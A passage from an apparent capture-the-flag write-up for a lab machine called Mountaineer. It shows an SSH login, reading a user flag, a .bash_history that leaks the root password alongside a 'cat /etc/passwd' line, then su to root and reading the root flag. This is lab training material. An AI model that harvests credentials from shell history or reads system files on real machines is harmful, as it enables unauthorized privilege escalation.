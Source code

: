 <p>J9f4z7tQlqsPhbf2nlaekD5vzn4yBfpdwUdawmtV</p>


```bash
:~/Mountaineer# ssh kangchenjunga@mountaineer.thm
...
kangchenjunga@mountaineer:~$ cat local.txt
97a805eb710deb97342a48092876df22
```


```bash
kangchenjunga@mountaineer:~$ cat .bash_history
ls
cd /var/www/html
nano index.html
cat /etc/passwd
ps aux
suroot
th3_r00t_of_4LL_mount41NSSSSssssss
whoami
ls -la
cd /root
ls
mkdir test
cd test
touch file1.txt
mv file1.txt ../
cd ..
rm -rf test
exit
ls
cat mynotes.txt 
ls
cat .bash_history 
cat .bash_history 
ls -la
cat .bash_history
exit
bash
exit
```


```bash
kangchenjunga@mountaineer:~$ su root
Password: 
root@mountaineer:/home/kangchenjunga# 
```


```bash
root@mountaineer:/home/kangchenjunga# cat /root/root.txt
a41824310a621855d9ed507f29eed757
```

<br>
<br>
